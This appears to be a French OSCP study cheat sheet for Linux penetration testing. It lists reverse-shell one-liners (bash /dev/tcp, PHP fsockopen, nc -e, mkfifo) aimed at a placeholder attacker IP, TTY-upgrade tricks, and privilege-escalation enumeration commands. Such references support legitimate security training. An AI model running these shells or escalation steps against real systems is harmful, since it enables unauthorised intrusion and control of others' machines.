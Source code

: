 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8" width="450">

## Reverse shell:
Ouvrir un port coté attaquant : nc -lvp [PORT]  
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1  
php -r '$s=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'  
nc [IP] [PORT] -e /bin/bash  
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc [IP] [PORT] > f  

Plus de méthodes ici : https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  

### Spawn TTY:
•	python -c 'import pty; pty.spawn("/bin/sh")'  
•	SHELL=/bin/bash script -q /dev/null  
•	/usr/bin/script -qc /bin/bash /dev/null  
Upgrade reverse shell:  
1.	Ctrl + Z  
2.	stty raw -echo ; fg  
## Énumération :
**Liste les répertoires accessibles en écriture :** find / -type d -writable 2> /dev/null  
**Liste des SUID:** find / -type f -perm /6000 -ls 2>/dev/null  

**Script pour l'énumération :**  
•	lse.sh  
•	LinEnum.sh  
•	LinPEAS.sh  

**Voir la version du système :**  
•	Version du noyau: uname -mr  
•	Version de l'OS: lsb_release -a  

**Voir les processus qui sont executés en arrière-plan:**  
•	pspy  
•	Voir si il y a une crontab  de configurée: cat /etc/crontab  

**Voir les ports en écoute :**  
netstat -tulpn  
Exploitation des droits SUDO/SUID sur des binaires connu:  
https://gtfobins.github.io/
